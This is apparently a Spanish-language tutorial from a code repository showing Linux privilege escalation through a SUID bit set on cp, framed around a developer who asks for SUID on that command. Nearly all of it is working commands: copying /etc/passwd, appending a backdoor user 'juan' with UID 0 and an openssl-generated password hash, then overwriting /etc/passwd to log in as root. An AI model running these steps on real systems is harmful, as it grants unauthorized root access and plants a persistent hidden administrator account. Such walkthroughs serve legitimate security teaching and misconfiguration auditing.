




# Escalada de privilegios con cp usando el bit SUID
## Premisa
Supongamos un desarrollador "*maddev*", como excusa necesita actualizar su aplicación, y para agilizar el asunto pide habilitar el SUID en el comando ```cp```

## Pasos

1. Otorgamos el SUID a cp
```
sudo chmod u+s $(which cp)
```


2. Lo siguiente como usuario maddev será duplicarnos el fichero ```/etc/passwd```
```
cat /etc/passwd > ./passwd
```
> Usamos cat porque cp nos deja copiar, pero no editar, así que antes extraemos el contenido con cat y lo llevamos nuestro propio ```passwd```  



3. Añadimos al fichero un nuevo usuario "*juan*" con perfil root, aprovechando que openssl viene instalado en todas las distros linux
```
echo "juan:$(openssl passwd -1 -salt fTTYcf34 juan123):0:0:root:/root:/bin/bash" >> passwd
```
> no nos complicamos con el salt y nos lo inventamos



4. Sustituimos con cp el passwd original por el nuestro, nos logeamos como juan y comprobamos si ya somos root.
```
cp passwd /etc/passwd
```

